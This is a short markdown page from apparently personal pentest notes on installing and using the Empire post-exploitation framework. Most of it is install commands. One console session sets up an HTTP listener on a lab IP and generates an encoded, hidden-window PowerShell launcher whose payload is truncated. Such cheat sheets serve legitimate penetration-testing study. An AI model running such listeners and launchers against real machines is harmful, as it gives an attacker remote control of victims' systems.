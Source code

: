 ```yaml
---
### The title for the content.
title : "empire"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "empire"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "empire description."
### The datetime assigned to this page.
date : 2020-03-11T10:40:17+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "empire"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [" "]
---
```


## empire

### Install

#### System

```bash
git clone https://github.com/BC-SECURITY/Empire
cd Empire
sudo ./setup/install.sh
```

#### Docker

```bash
docker pull bcsecurity/empire:{version}
docker run -it bcsecurity/empire:{version}

# with persistent storage
docker pull bcsecurity/empire:{version}
docker create -v /empire --name data bcsecurity/empire:{version}
docker run -it --volumes-from data bcsecurity/empire:{version}

# if you prefer to be dropped into bash instead of directly into empire
docker run -it --volumes-from data bcsecurity/empire:{version} /bin/bash
```

### Examples

#### Reset DB

```bash
/empire/setup/reset.sh
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Github project](https://github.com/BC-SECURITY/Empire)
* [Quickstart](https://github.com/BC-SECURITY/Empire/wiki/Quickstart)

